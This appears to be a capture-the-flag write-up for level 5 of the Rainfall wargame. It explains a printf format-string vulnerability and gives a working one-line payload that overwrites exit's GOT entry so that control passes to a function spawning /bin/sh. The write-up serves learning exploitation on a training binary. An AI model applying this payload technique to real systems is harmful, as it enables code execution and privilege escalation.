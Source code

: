 # Rainfall - Level 5

## Executable Analyse

The program has 3 functions :

```assembly
(gdb) info function
0x080484a4  o
0x080484c2  n
0x08048504  main
```
The program calls `main`, which calls `n()` function.  
The goal is to execute `o` because the function call *system('/bin/sh')*  

Just like the two previous challenges, the `n` function is vulnerable to a printf attack.  

This time we have to rewrite exit() link function in the linkage table (@plt) in order to execute `o`. 

## Vulnerability

```bash
level5@RainFall:~$ ./level5 
AAAA %p %p %p %p %p %p %p %p

AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520 0x25207025 0x70252070 0x20702520
```
Our buffer starts to write at the 4th element. Like in previous challenge we will need `%4$n`  
We can found the address of exit() link, disassembling exit function, and take `jmp` address : `0x8049838`  
```assembly
(gdb) disas exit
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:		jmp    *0x8049838
   0x080483d6 <+6>:		push   $0x28
   0x080483db <+11>:	jmp    0x8048370
End of assembler dump.
```
We want to store o() address (0x080484a4) at `*0x8049838`  

The n will write the n position in buffer, so hex(0x080484a4) convert to int = 134513828.  
Because of exit link address already passed we substact - 4 = 134513824  

```shell
(python -c 'print "\x08\x04\x98\x38"[::-1] + "%134513824x" + "%4$n"' ; cat) | ./level5
```